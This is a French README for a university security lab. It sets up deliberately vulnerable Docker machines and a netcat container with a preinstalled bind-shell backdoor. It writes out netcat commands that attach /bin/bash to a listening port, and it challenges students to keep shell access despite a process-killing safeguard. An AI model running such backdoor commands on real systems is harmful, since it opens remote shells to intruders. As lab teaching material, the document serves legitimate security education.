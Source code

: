 # Infrastructure pour le labo 1

Ce répertoire contient le `docker-compose.yaml` pour faire l'infrastructure tu
labo 1.
Vous pouvez lancer l'infrastructure vous-même avec la commande suivante:

```
docker-compose up -d
```

La première fois ça prend pas mal de temps vu que docker doit télécharger les fichiers.
La plupart des machines viennent du projet [Linux Vulhub](https://github.com/vulhub/vulhub) et présentent une ou plusieurs vulnérabilités.
Les machines suivantes ont été ajoutées manuellement:

- wireguard - qui permet une connexion sécurisée depuis l'extérieur
- netcat - avec une backdoor pré-installée
- huge - qui contient plusieurs services

## Connection

Afin de vous connecter au système, vous pouvez utiliser:

```
docker exec -ti wireguard
```

Ce qui vous donne le même accès comme vous avez eu au cours avec Wireguard.

## Netcat backdoor

Le docker `netcat` à l'adresse `10.1.1.3` contient un backdoor très simple qui est démarré comme suite:

```
nc.traditional -lvp 4444 -e /bin/bash
```

Ceci lance la commande `netcat` en écoutant sur le port `4444` et en connectant les entrées et sorties avec la commande `/bin/bash`.
Pour éviter qu'un·e étudiant·e bloque les autres en se connectant sur ce port, il y a une boucle infinie,
plus une deuxième boucle qui arrète `netcat` tous les 10 secondes.
Vous trouverez la commande complète dans le [Dockerfilen.nc](Dockerfile.nc).

Pour accéder à cette backdoor, vous pouvez lancer

```
nc 10.1.1.3 4444
```

Et vous avez jusqu'à 10 secondes pour explorer le système et trouver le `password.txt`.
Si vous voulez avoir plus de temps, vous pouvez aussi lancer vous-même une backdoor supplémentaire sur la machine 10.1.1.3:

```
nc.traditional -lvp 5555 -e /bin/bash &
```

Bon - ceci ne marche pas, parce que le `Dockerfile.nc` contient une ligne qui termine tous les processus qui contiennent la chaîne `bash`.
A vous de trouver un meilleur moyen - sans changer le `Dockerfile.nc`!
Pour le·a première qui trouve, +1 point pour le prochain TP, pour le·a deuxième, +0.5 points sur le prochain TP.
Envoyez un email à linus.gasser@heig-vd.ch avec la solution.